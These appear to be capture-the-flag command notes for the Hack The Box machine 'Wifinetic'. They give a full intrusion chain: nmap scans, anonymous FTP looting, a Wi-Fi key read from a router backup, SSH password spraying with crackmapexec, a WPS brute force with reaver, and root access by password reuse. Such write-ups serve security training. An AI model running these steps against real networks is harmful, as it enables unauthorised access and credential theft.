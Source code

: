 # 💻 HTB: Wifinetic – Command Notes

## 🧭 Recon

### Nmap
```bash
nmap -p- --min-rate 10000 10.10.11.247
nmap -p 21,22,53 -sCV 10.10.11.247
nmap -sU --top 10 10.10.11.247
```

---

## 📁 [FTP](FTP) Enumeration

### Anonymous Login
```bash
ftp 10.10.11.247
# Use username: anonymous
```

### Download Files
```ftp
prompt off
mget *
```

---

## 🔍 File Review

- **backup-OpenWrt-2023-07-26.tar** → Extract and review WiFi config for WPA key:
```bash
tar xf backup-OpenWrt-2023-07-26.tar
cat etc/config/wireless
```

Look for lines like:
```
option key 'VeRyUniUqWiFIPasswrd1!'
```

---

## 📡 [DNS](DNS) Recon (TCP/UDP 53)

### Add Hosts Entry
```bash
echo "10.10.11.247 wifinetic.htb" | sudo tee -a /etc/hosts
```

---

## 👤 Shell as `netadmin`

### Bruteforce SSH Login with Known Password
Create user file `users` with contents from `/etc/passwd`:
```bash
crackmapexec ssh 10.10.11.247 -u users -p 'VeRyUniUqWiFIPasswrd1!' --continue-on-success
```

### SSH In
```bash
sshpass -p 'VeRyUniUqWiFIPasswrd1!' ssh netadmin@10.10.11.247
```

---

## 🔍 Internal Enumeration

### Wireless Interfaces
```bash
ifconfig
iw dev
```

### Wireless Config (permissions restricted)
```bash
cat /etc/wpa_supplicant.conf
```

### SetUID & Capabilities
```bash
find / -perm -4000 -or -perm -2000 2>/dev/null
getcap -r / 2>/dev/null
```

Look for:
```
/usr/bin/reaver = cap_net_raw+ep
```

---

## 📶 WPA Brute Force – Reaver

### Target Details
- **Monitor Interface**: `mon0`
- **Target BSSID (AP MAC)**: `02:00:00:00:00:00`
- **Channel**: 1
- **SSID**: `OpenWrt`

### Run Reaver
```bash
reaver -i mon0 -b 02:00:00:00:00:00 -vv
```

Expect:
```
[+] WPA PSK: 'WhatIsRealAnDWhAtIsNot51121!'
```

---

## 👑 Root Access

### Become Root via `su`
```bash
su -
# Password: WhatIsRealAnDWhAtIsNot51121!
```

### Or [SSH](SSH) as Root
```bash
sshpass -p 'WhatIsRealAnDWhAtIsNot51121!' ssh root@10.10.11.247
```

---

## 🔬 Beyond Root – Wash Analysis

### Why `wash -i mon0` hangs:
- `mon0` is monitor-mode and can **sniff** but not transmit.
- `wash` relies on **sending a probe** + sniffing response.
- Use `wlan2` instead for sending:
```bash
wash -i wlan2
```

### Both interfaces receive response:
- Running `wash -i wlan2` allows `wash -i mon0` to print results too (shared PHY).
